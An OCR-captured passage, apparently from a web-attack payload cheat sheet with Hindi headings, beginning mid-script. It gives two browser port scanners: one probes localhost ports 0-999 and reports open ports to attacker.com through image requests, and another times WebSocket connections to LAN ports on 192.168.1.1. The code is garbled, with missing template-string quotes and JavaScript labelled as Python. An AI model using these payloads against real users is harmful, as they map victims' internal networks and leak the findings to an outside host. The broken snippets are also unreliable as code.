 ```html
}
});

setTimeout(x=>{
controller.abort();
if(q.length) {
q.shift()();
}
}, wait);
}
</script>
```
### पोर्ट स्कैनर (fetch)
```javascript
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = http://attacker.com/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```
### पोर्ट स्कैनर (वेबसोकेट्स)
```python
var ports = [80, 443, 445, 554, 3306, 3690, 1234];
for(var i=0; i<ports.length; i++) {
var s = new WebSocket("wss://192.168.1.1:" + ports[i]);
s.start = performance.now();
s.port = ports[i];
s.onerror = function() {
console.log("Port " + this.port + ": " + (performance.now() -this.start) + " ms");
};

